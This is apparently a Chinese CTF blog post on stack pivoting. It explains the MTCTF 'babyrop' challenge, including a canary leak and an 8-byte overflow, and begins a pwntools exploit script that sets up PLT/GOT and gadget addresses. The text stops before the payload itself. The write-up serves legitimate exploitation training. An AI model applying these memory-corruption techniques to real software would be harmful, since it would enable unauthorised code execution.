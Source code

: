```yaml
---
title: 栈迁移总结
date: 2022-03-25 02:54:59 +0800
categories:
  - 漏洞利用总结
tags:
  - pwn
  - ctf
permalink: /posts/id=5/
pin: false
published:
---
```


## 例题1 MTCTF babyrop （64位）
### 思路
![checksec](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-3ddddaab98e2e0ce.png)
![main函数](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-a465eb750e2143c9.png)
![V6](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-5763234bbed1de7a.png)
![vuln](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-aef0e1a3d791a557.png)
![buf](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-d097474c1c352612.png)

题目情况：发现有个循环，一次读一个字节，如果你输入失败或者输入\n就把最后一位置零，然后break；还有就是输入满24个字符也break。然后就是一个字符串匹配，但匹配的是字符串的地址。Vuln是一个读0x30字节的read，buf可溢出8字节。

基本上就确定了是栈迁移，前置条件是一个字符串匹配和金丝雀，看V6发现和循环条件正好匹配输入0x18个字节，下文还有个printf，满足泄露金丝雀，覆盖掉金丝雀最后字节\x00泄露。
栈迁移这里有2种构造
### EXP
第一种
```python
from pwn import *
context.log_level = 'debug'

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p = process('babyrop')
elf = ELF('babyrop')
libc = ELF("./libc-2.27.so")

def dbg():
	gdb.attach(p)
	pause()
# 
read = 0x40072E
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
read_plt = elf.plt['read']
read_got = elf.got['read']
bss_addr = 0x601100
lea_ret = 0x4008A2
```